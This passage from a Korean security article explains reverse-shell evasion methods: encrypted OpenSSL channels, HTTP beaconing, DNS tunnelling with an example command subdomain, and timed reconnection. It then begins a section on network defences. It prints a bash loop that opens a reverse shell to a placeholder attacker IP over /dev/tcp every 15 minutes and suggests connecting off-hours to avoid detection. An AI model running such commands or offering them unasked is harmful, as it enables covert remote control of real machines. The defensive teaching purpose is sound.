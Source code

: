 이 방법은 OpenSSL을 사용하여 암호화된 통신 채널을 생성한다. HTTPS 트래픽과 유사하게 보이므로 트래픽 분석을 어렵게 만든다.

### HTTP 웹 트래픽 이용

대부분의 기업에서는 웹 트래픽(포트 80, 443)이 허용되므로, HTTP 프로토콜을 활용한 리버스 쉘은 탐지가 어렵다. 웹 요청으로 위장해 명령을 주고받는 방식으로, 일반적인 웹 브라우징과 구분하기 어렵다.

웹 기반 리버스 쉘은 다음과 같은 형태로 동작한다:

1. 대상 시스템에서 주기적으로 공격자 서버에 HTTP 요청을 보낸다
2. 서버는 요청에 대한 응답으로 실행할 명령을 전송한다
3. 대상 시스템은 명령을 실행하고 결과를 다음 HTTP 요청에 포함시켜 전송한다

### DNS 터널링

HTTP 트래픽마저 모니터링되는 극도로 제한된 환경에서는 DNS 쿼리를 활용한 리버스 쉘이 대안이 될 수 있다. 대부분의 네트워크에서 DNS 쿼리는 인터넷 접속에 필수적이므로 차단하지 않기 때문이다.

DNS 터널링은 명령과 응답을 DNS 패킷에 인코딩하여 전송하는 방식이다. 이 기법의 작동 원리는 다음과 같다:

1. 공격자는 권한 있는 DNS 서버를 제어
2. 명령을 DNS 하위 도메인 형태로 인코딩 (예: `cmd.ls-al.attack.com`)
3. 대상 시스템은 이 도메인을 조회하며 명령을 수신
4. 명령 실행 결과를 DNS 응답으로 인코딩하여 전송

DNS 터널링은 느리지만 다른 모든 통신이 차단된 상황에서도 동작할 가능성이 높다.

### 간헐적 연결 및 지연 실행

지속적인 연결은 탐지될 가능성이 높으므로, 간헐적인 연결 방식을 활용하면 탐지를 어렵게 만들 수 있다:

```bash
# 15분마다 연결 시도
while true; do
  bash -i >& /dev/tcp/공격자IP/포트 0>&1 2>/dev/null
  sleep 900
done
```

이러한 방식은 네트워크 모니터링 시스템의 지속적인 연결 탐지를 우회하는 데 효과적이다. 또한 업무 시간 외 또는 관리자가 자리를 비운 시간대에만 연결하도록 설정하면 탐지 가능성을 더욱 낮출 수 있다.

## 방어 전략

리버스 쉘 공격에 대한 효과적인 방어는 크게 네트워크 레벨과 호스트 레벨로 나눌 수 있다.

### 네트워크 레벨 방어

아웃바운드 트래픽 제한은 리버스 쉘 방어의 핵심이다. 대부분의 조직은 인바운드 연결만 제한하고 아웃바운드는 자유롭게 허용하는데, 이것이 리버스 쉘의 약점이 된다.

**효과적인 네트워크 방어:**

-   **필요한 연결만 허용**: 서버가 접속해야 하는 특정 IP와 포트만 화이트리스트로 관리
-   **비정상 연결 감시**: 4444, 5555 같은 일반적인 리버스 쉘 포트로의 연결 차단
-   **프록시 서버 활용**: 모든 웹 트래픽을 프록시를 통해 검사하고 필터링
-   **DNS 모니터링**: 내부 DNS 서버를 통해 외부 요청을 감시하고 이상 패턴 탐지
